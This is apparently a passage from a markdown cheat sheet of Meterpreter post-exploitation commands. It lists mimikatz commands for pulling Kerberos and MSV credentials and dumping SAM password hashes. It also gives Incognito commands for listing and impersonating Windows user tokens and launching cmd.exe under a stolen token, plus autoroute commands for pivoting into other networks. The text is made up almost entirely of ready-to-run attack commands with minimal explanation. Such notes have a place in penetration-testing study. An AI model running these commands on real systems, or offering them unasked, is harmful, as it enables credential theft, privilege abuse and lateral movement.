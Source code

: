- retrieve kerberos credentials 

```
kerberos
```

- retrieve windows MSV

```
msv
```

- Retrieve hashes from SAM

```
mimikatz_command -f samdump::hashes
```

- List crypto_providers

```
mimikatz_command -f crypto::listProviders
```

- Start/stop windows services

```
mimikatz_command -f service::
```

### Incognito

- Impersonating user tokens
- Loading the module

```
use incognito
```

- List user tokens 

```
list_tokens -u 
```

- impersonating a user

```
impersonate_token DOMAIN\\username
```

- Execute command with the token, -t tells it to use the token

```
execute -f cmd.exe -i -t
```

### Pivoting

- autoroute can be used to use ipconfig information to route to any other networks on dual-homed systems

```
run autoroute -s x.x.x.x/24
run autoroute -p
```
